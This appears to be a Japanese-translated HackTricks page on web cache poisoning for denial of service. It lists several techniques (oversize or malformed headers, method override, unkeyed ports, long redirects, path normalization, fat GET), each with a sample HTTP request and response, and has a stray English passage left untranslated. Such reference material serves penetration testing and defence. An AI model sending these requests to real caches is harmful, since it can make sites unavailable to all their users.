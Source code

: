 # Cache Poisoning to DoS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="danger" %}
このページでは、**キャッシュサーバーに対して有効なリクエスト**に対して**ウェブサーバーがエラーで応答する**ように試みるさまざまなバリエーションを見つけることができます。
{% endhint %}

* **HTTP Header Oversize (HHO)**

ウェブサーバーがサポートするサイズより大きく、キャッシュサーバーがサポートするサイズより小さいヘッダーサイズでリクエストを送信します。ウェブサーバーは400レスポンスで応答し、これがキャッシュされる可能性があります:
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTPメタキャラクター (HMC) と予期しない値**

**有害なメタキャラクター**を含むヘッダーを送信します。攻撃が機能するためには、まずキャッシュをバイパスする必要があります。
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
A badly configured header could be just `\:` as a header.

This could also work if unexpected values are sent, like an unexpected Content-Type:  
悪く構成されたヘッダーは、単に `\:` としてヘッダーになる可能性があります。

予期しない値が送信される場合、例えば予期しない Content-Type: の場合も、これが機能する可能性があります。
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **Unkeyed header**

一部のウェブサイトは、_X-Amz-Website-Location-Redirect: someThing_ ヘッダーのように、リクエスト内の特定のヘッダーを**見ると**エラーステータスコードを返します。
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTPメソッドオーバーライド攻撃 (HMO)**

サーバーが `X-HTTP-Method-Override`、`X-HTTP-Method`、または `X-Method-Override` のようなヘッダーでHTTPメソッドを変更することをサポートしている場合、メソッドを変更して有効なページをリクエストすることが可能です。これにより、サーバーがそれをサポートしないため、不正なレスポンスがキャッシュされます：
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **未鍵ポート**

Hostヘッダーのポートがレスポンスに反映され、キャッシュキーに含まれていない場合、未使用のポートにリダイレクトすることが可能です：
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **ロングリダイレクトDoS**

以下の例のように、xはキャッシュされていないため、攻撃者はリダイレクト応答の動作を悪用して、リダイレクトが非常に大きなURLを送信するようにし、エラーを返すことができます。その後、キャッシュされていないxキーなしでURLにアクセスしようとする人々は、エラー応答を受け取ります:
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **ホストヘッダーのケース正規化**

ホストヘッダーは大文字と小文字を区別しないはずですが、一部のウェブサイトは小文字であることを期待しており、そうでない場合はエラーを返します:
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **パスの正規化**

一部のページは、パスにデータをURLエンコードして送信するとエラーコードを返しますが、キャッシュサーバーはパスをURLデコードし、URLデコードされたパスのレスポンスを保存します。
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

一部のキャッシュサーバー（Cloudflareなど）やウェブサーバーは、ボディを持つGETリクエストを停止するため、無効なレスポンスをキャッシュするために悪用される可能性があります：
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## 参考文献

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してください。**

</details>
{% endhint %}
